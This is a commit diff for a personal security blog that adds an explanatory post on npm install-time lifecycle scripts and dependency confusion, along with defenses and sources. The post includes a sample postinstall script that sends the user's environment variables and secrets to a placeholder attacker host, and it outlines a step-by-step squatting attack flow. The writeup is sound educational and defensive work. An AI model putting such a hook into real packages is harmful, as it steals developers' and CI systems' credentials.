

Before and after one commit to MihranGIT/MihranGIT.github.io, a Jekyll site: the page built from index.html, in a window 1280 px wide and 1064 px high. Shown: the whole window, without its empty margins (182-1097 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; part of the change alters nothing that is shown.

Commit message:
Add npm Lifecycle Scripts writeup under Security > Supply Chain
Covers install-time RCE via preinstall/install/postinstall and
dependency confusion as the delivery vector. Adds supply-chain
category badge color.

Co-Authored-By: Claude Opus 4.8 (1M context) <noreply@anthropic.com>

````diff
--- /dev/null
+++ b/_posts/2026-06-09-npm-lifecycle-scripts.md
@@ -0,0 +1,167 @@
+---
+title: "npm Lifecycle Scripts & Dependency Confusion"
+date: 2026-06-09
+category: supply-chain
+tags: [security, supply-chain, npm, dependency-confusion]
+breadcrumb: "Security > Supply Chain > npm Lifecycle Scripts"
+---
+
+# Security › Supply Chain › npm Lifecycle Scripts
+
+## What it is
+
+When you run `npm install <package>`, npm doesn't just download files — it
+*runs code*. Every package can define **lifecycle scripts** in its
+`package.json` that npm executes automatically, with no prompt and no review:
+
+```json
+{
+  "scripts": {
+    "preinstall":  "node setup.js",
+    "install":     "node-gyp rebuild",
+    "postinstall": "node phone-home.js"
+  }
+}
+```
+
+`preinstall`, `install`, and `postinstall` all fire during a normal
+`npm install`. They run **arbitrary shell commands as your user** — the same
+access you have to your env vars, `~/.ssh`, `~/.npmrc`, `~/.aws/credentials`,
+and any cloud metadata reachable from the box.
+
+Two facts turn this into a supply-chain primitive:
+
+1. **Scripts run for dependencies, not just the package you named.** Install
+   package A, and the `postinstall` of every transitive dependency runs too —
+   packages you've never heard of, pulled in three levels deep. A typical
+   project resolves hundreds of them.
+2. **You never see it happen.** The output scrolls past in the install log, if
+   it prints anything at all. There is no consent step.
+
+This is the execution half of most npm supply-chain attacks. The other half is
+*delivery* — getting a malicious package onto your machine in the first place.
+**Dependency confusion** is the most common delivery trick, so it's covered
+here too.
+
+---
+
+## How it works
+
+```
+   ┌───────────┐   npm install    ┌─────────────┐   resolves &   ┌──────────────┐
+   │ Developer │ ───────────────▶ │  npm client │ ─────────────▶ │  registry    │
+   │  / CI      │                 │             │   downloads    │ (npmjs.com)  │
+   └───────────┘                 └──────┬──────┘                 └──────────────┘
+                                        │ runs lifecycle scripts
+                                        ▼  (preinstall/install/postinstall)
+                              ┌──────────────────────┐
+                              │  attacker's code,    │
+                              │  as YOUR user         │
+                              └──────────┬───────────┘
+                                         ▼
+                              ┌──────────────────────┐
+                              │ env vars, ~/.npmrc    │
+                              │ tokens, SSH keys,     │
+                              │ AWS creds, cloud meta │
+                              └──────────────────────┘
+```
+
+The attacker needs:
+
+1. A package they control that ends up in your dependency tree.
+2. A lifecycle script (`preinstall` / `install` / `postinstall`) carrying the
+   payload.
+3. You (or your CI) to run `npm install` without `--ignore-scripts`.
+
+### Two lifecycle scripts: the install half
+
+A real-world `postinstall` payload does roughly this:
+
+```js
+// postinstall — runs automatically on `npm install`
+const os = require("os");
+const https = require("https");
+
+const profile = {
+  user: os.userInfo().username,
+  host: os.hostname(),
+  cwd: process.cwd(),
+  env: process.env,                 // tokens, CI secrets, registry creds
+};
+
+https.request("https://attacker.example/collect", { method: "POST" })
+  .end(JSON.stringify(profile));
+```
+
+That is exactly the shape Microsoft described in the *33 malicious npm
+packages* writeup: `postinstall` → fingerprint the developer/CI environment →
+exfiltrate over HTTP. No exploit, no CVE — just the documented behaviour of
+`npm install`.
+
+### Dependency confusion: the delivery half
+
+Execution is useless if the package never reaches you. Dependency confusion is
+how attackers get there without compromising anything:
+
+1. Your org uses a **private** internal package, e.g. `@acme/logger`, served
+   from a private registry.
+2. The attacker publishes a **public** package on npmjs.com with the **same
+   name** and a **higher version number** (`99.0.0`).
+3. If your npm/CI is misconfigured — no scope pinned to the private registry,
+   or both registries searched and "highest version wins" — the resolver pulls
+   the **public, malicious** copy.
+4. Its `postinstall` runs. Delivery + execution, end to end, with no insider.
+
+> The name leaks more often than you'd think: internal package names appear in
+> committed `package.json` files, public source maps, Docker layers, and CI
+> logs. That's all an attacker needs to register the public squat.
+
+### Typical flow
+
+1. Recon for an internal package name (leaked `package.json`, source map, build
+   log).
+2. Publish a public package of that name with a high version and a
+   `postinstall` payload — or typosquat a popular name (`expres`, `lodahs`).
+3. Wait for a developer or CI to `npm install`.
+4. The lifecycle script fires and beacons the harvested environment back.
+
+---
+
+## Impact
+
+- Steal npm tokens (`~/.npmrc`), letting the attacker publish *more* malicious
+  versions of packages you own — the worm step.
+- Harvest CI secrets, cloud creds, and SSH keys present in the install env.
+- Code execution on developer laptops and build agents alike.
+- Downstream supply-chain compromise: a poisoned build ships to *your* users.
+
+---
+
+## Defenses
+
+- **Disable scripts by default** — `npm install --ignore-scripts`, or set
+  `ignore-scripts=true` in `.npmrc`. Re-enable per-package only for the few that
+  genuinely need a native build. This kills the execution half outright.
+- **Pin scopes to your private registry** in `.npmrc`
+  (`@acme:registry=https://registry.acme.internal`) so `@acme/*` is *never*
+  resolved from public npm — the core dependency-confusion fix.
+- **Lockfiles + `npm ci`** — install exact, reviewed versions; `npm ci` fails
+  on any drift from `package-lock.json`.
+- **Don't let CI hold long-lived secrets at install time** — scope tokens, use
+  OIDC, and treat the install step as untrusted code execution.
+- **Vet new and updated dependencies** — sudden version jumps, fresh
+  maintainers, or a package that newly added a `postinstall` are red flags.
+- **Egress control on build agents** — block arbitrary outbound HTTP and the
+  cloud metadata endpoint (`169.254.169.254`) so a payload can't beacon out.
+
+---
+
+## Sources
+
+- npm Docs — *scripts* (lifecycle hooks):
+  <https://docs.npmjs.com/cli/v11/using-npm/scripts>
+- Microsoft Security — *33 malicious npm packages abuse dependency confusion to
+  profile developer environments* (2026):
+  <https://www.microsoft.com/en-us/security/blog/2026/05/29/33-malicious-npm-packages-abuse-dependency-confusion-profile-developer-environments/>
+- Alex Birsan — *Dependency Confusion* (original 2021 research):
+  <https://medium.com/@alex.birsan/dependency-confusion-4a5d60fec610>
--- a/assets/css/style.css
+++ b/assets/css/style.css
@@ -198,6 +198,7 @@ img { max-width: 100%; height: auto; }
 .card-cat.forensics{ background: #072a1e; color: #34d399; }
 .card-cat.rev      { background: #2d1654; color: #c084fc; }
 .card-cat.cicd     { background: #1a2e3b; color: #67e8f9; }
+.card-cat.supply-chain { background: #3b2410; color: #fb923c; }
 .card-cat.misc     { background: #1f2428; color: #9ca3af; }
 
 /* Hierarchical tree listing */
````
